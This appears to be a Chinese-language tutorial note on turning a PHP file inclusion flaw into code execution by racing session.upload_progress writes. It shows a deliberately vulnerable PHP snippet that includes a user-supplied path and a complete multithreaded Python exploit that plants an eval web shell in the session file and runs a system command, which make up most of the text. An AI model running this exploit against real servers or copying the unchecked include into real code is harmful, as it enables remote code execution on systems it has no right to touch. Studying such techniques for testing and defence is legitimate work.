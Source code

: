php.ini默认配置

> 1. session.upload_progress.enabled = On
> 2. session.upload_progress.cleanup = On
> 3. session.use_strict_mode = 0   // 用户可以自定义PHPSESSID

```php
<?php
$a = $_GET['file'];
include "$a";
```

显然存在一个文件包含漏洞，但在没有恶意文件或未知的情况下，是否无法利用了呢？

其实可以通过session.upload_progress将恶意代码写入session文件，进而包含。

当默认配置 `session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空

此时可以利用条件竞争来包含文件

```python
import io
import requests
import threading

sessid = 'Taco'
data = {"cmd": "system('calc');"}


def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://127.0.0.1:63342/PhpCode/fun.php',
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('test.txt', f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post('http://127.0.0.1:63342/PhpCode/fun.php?file=session/sess_' + sessid, data=data)
        if 'test.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++]retry")


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

注：上传的文件要大些，否则很难竞争成功

